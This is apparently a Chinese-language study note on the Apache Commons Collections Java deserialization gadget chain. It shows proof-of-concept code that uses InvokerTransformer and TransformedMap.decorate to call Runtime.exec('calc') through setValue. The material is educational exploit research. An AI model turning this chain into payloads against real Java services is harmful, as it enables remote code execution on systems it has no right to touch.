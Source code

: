 ```java
public void invokerExec() throws Exception {
        //常规执行命令
        //Runtime.getRuntime().exec("calc");
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new Object[]{"calc"}
        );
        invokerTransformer.transform(Runtime.getRuntime());
    }
```

![image.png](image3.png)

现在就是要找那里调用了`InvokerTransformer.transform`

查找用法（记得去maven里面下载源码）里面有个`TransformedMap.checkSetValue`

![image.png](image4.png)

这里显而易见只要把`valueTransformer` 改为`InvokerTransformer` 就OK

找到`TransformedMap.TransformedMap`

![image.png](image5.png)

这里是能达到目的，但是是`protected` 所以还得找在哪调用了`TransformedMap.TransformedMap`

找到`TransformedMap.decorate`

![image.png](image6.png)

这下就完整了，但是回过头发现`TransformedMap.checkSetValue` 也是`protected` 

所以继续查找在哪调用了`TransformedMap.checkSetValue`

找到在`AbstractInputCheckedMapDecorator` 里面进行了调用

![image.png](image7.png)

再回头看一下`TransformedMap`和`decorate`发现就是比较像装饰器，传入一个map进行操作后返回一个map，其中的操作就使用了`setValue`随后调用了`checkSetValue`

代码如下，大致过程就是创建一个map然后使用`decorate` 进行操作，操作完了以后调用`setValue` 并且传入需要调用的`Runtime.getRuntime()` 类

```java
public void transformerMap() throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new Object[]{"calc"}
        );
        //TransformedMap decorate = (TransformedMap) TransformedMap.decorate(null, null, invokerTransformer);
        HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
        objectObjectHashMap.put("a","b");
        Map<Object,Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, invokerTransformer);
        for (Map.Entry<Object,Object> entry : decorate.entrySet()) {
            entry.setValue(Runtime.getRuntime());
        }
    }
```
